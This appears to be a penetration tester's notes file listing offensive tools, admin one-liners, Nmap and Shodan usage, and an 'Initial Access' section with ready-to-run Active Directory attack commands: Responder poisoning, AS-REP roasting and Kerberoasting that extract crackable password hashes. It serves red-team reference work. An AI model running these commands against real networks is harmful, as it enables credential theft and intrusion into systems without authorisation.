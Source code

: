 # **ITSEC Notes**

## Tools
https://github.com/Cerbersec/Ares

https://github.com/cddmp/enum4linux-ng

https://github.com/0xsp-SRD/mortar

https://github.com/danielbohannon/Invoke-Obfuscation

https://github.com/aas-n/spraykatz


## Powershell

### Ping a List of Computers

```
$ServerName = Get-Content "c:\Computers.txt"  
  
foreach ($Server in $ServerName) {  
  
        if (test-Connection -ComputerName $Server -Count 2 -Quiet ) {   
          
            "$Server is Pinging "  
          
                    } else  
                      
                    {"$Server not pinging"  
              
                    }      
          
}
```

### Get IPv4 Address from a List
```
$Servername = Get-Content "C:\Computers.txt" 

ForEach ($Server in $Servername) {

 (Get-ADComputer -Properties IPv4Address).IPv4Address

 }
 ```

## Unix Commands

### Print/Split Certain Columns, Space delimited -F ' ' / Column 1 $1  

```
awk -F ' ' '{print $1}' Macs.txt > MacsNamesOnly.txt
```

### Split a file n (100) number of lines into part1/2/etc
```
split -l 100 full part --numeric-suffixes=1
```

### Reformat usermames first.last@domain.com to last + first letter
```
while read LINE in; do
        EMAIL=`echo $LINE | awk -F\@ '{print $1}'`
        NAME=`echo $EMAIL | awk -F\. '{print $NF}'`
        CHAR1=`echo $LINE | cut -c1`
        echo ${NAME}${CHAR1}
done < emails.lst
```

### Get Ips from a file
```
egrep -o '[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}' list | sort | uniq > ips
```

## Nmap

### Useful Switches 
```
-p- all ports
--open only show open ports
-iL use a target list

Convert xml output to html files
&& xsltproc part1.xml -o part1.html 

```


## Metasploit

### Install Metasploit
````
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && chmod 755 msfinstall && ./msfinstall
````

## Shodan
### Useful Searches
```
org:"companyname"
net:"1.1.1.0/24"
```

## Notes
Identify Domain Controller
````
nslookup  
 type set type=all 
 _Idap._tcp.dc_msdcs."Domain_Name" 
 ````

# Initial Access
## Poisoning and Spoofing (LLMNR NBT-NS)
Responder
https://github.com/lgandx/Responder

Examples

``` responder -I eth0 ```

``` responder -I eth0 -A ``` Analyze mode

``` responder -I eth0 -wF ``` WPAD

## ASREProast
https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py

users list dynamically queried with an LDAP anonymous bind

```
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/'
``` 

users list dynamically queried with a LDAP authenticated bind (password)

```
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/USER:Password'
``` 

CrackMapExec

```
crackmapexec ldap $TARGETS -u $USER -p $PASSWORD --asreproast ASREProastables.txt --KdcHost $KeyDistributionCenter
``` 

## Kerberoasting
https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py

```
python GetUserSPNs.py -debug -request -outputfile kerberoasting.txt -dc-ip 1.1.1.1 -target-domain domain.local domain/user:password
```

